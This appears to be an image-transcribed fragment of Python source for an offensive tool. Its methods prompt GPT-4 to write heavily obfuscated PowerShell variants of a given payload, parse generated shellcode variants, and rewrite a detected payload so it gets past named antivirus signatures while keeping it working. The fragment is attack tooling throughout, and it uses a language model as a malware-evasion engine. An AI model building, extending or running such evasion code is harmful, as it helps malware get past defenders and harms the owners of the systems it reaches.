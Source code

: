 ```python
        )

        return self.parse_shellcode_variants(response.choices[0].message.content)

    def generate_evasive_powershell(self, payload_function: str) -> List[str]:
        """Generate obfuscated PowerShell variants"""

        ps_prompt = f"""
        Create 10 heavily obfuscated PowerShell variants that execute:
        {payload_function}

        Use these obfuscation techniques:
        1. Variable name randomization
        2. String concatenation and splitting
        3. Base64 encoding layers
        4. Character replacement/substitution
        5. Function call obfuscation
        6. Whitespace and formatting variations
        7. Comment insertion for signature breaking
        8. Alternative cmdlet aliases
        9. Pipeline obfuscation
        10. Type accelerator variations

        Each variant should evade different detection patterns while maintaining functionality.
        """

        response = self.llm.chat.completions.create(
            model="gpt-4",
            messages=[{"role": "user", "content": ps_prompt}]
        )

        return self.parse_powershell_variants(response.choices[0].message.content)

    def adaptive_av_evasion(self, payload: str, detection_results: List[Dict]) -> str:
        """Adapt payload based on AV detection feedback"""

        evasion_prompt = f"""
        The following payload was detected by security tools:

        Original Payload:
        {payload}

        Detection Results:
        {json.dumps(detection_results, indent=2)}

        Modify the payload to evade these specific detections:
        1. Analyze which signatures or behaviors triggered detection
        2. Apply appropriate obfuscation techniques
        3. Replace detected patterns with functionally equivalent alternatives
        4. Add anti-analysis techniques if needed
        5. Maintain original functionality

        Provide the modified payload with explanation of changes made.
        """

        response = self.llm.chat.completions.create(
            model="gpt-4",
            messages=[{"role": "user", "content": evasion_prompt}]
        )

        return response.choices[0].message.content
```
